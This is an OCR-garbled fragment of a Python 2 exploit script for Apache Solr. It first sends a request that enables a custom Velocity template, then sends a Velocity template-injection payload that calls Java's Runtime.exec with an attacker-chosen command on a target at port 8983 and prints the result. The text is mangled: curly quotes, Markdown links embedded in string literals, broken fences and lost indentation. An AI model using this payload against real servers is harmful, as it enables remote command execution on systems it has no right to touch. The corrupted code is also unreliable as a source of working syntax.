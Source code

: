 ```
}

}’’’

proxies = {“http”:“[http://127.0.0.1:8080](http://127.0.0.1:8080)”}

r = requests.post(core_name_url,headers=headers,data=payload)

# r = requests.post(core_name_url,headers=headers,data=payload,proxies=proxies)

if r.status_code == 200 and ‘responseHeader’ in r.content:

print “[+] maybe enable Successful!”

exp_url = core_name_url[:-7]

cmd = ‘whoami’

cmd = sys.argv[2]

```
 send_exp(exp_url,cmd)
else:
    print "[+] Enable Fail!\n" 
```

def send_exp(exp_url,cmd):

exp_url = exp_url + r"/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27" + cmd + r"%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1…$out.available()])$str.valueOf($chr.toChars($out.read()))%23end"

proxies = {“http”:“[http://127.0.0.1:8080](http://127.0.0.1:8080)”}

r = requests.get(exp_url)

# r = requests.get(exp_url,proxies=proxies)

if r.status_code == 400 or r.status_code == 500  or r.status_code ==200 and len(r.content) >0:

print “>>> [+] Exp Send Successful! <<<”

print “____________________________________________________________”

print ‘\n’,exp_url,’\n’

print ‘>>>>>>>\n’,r.content

else:

print “[+] EXP No Send Successful!\n”

if **name** == ‘**main**’:

if len(sys.argv) != 3:

sys.exit("\n [+] Usage:  python %s [http://x.x.x.x:8983](http://x.x.x.x:8983)  command\n" % sys.argv[0])

else:

```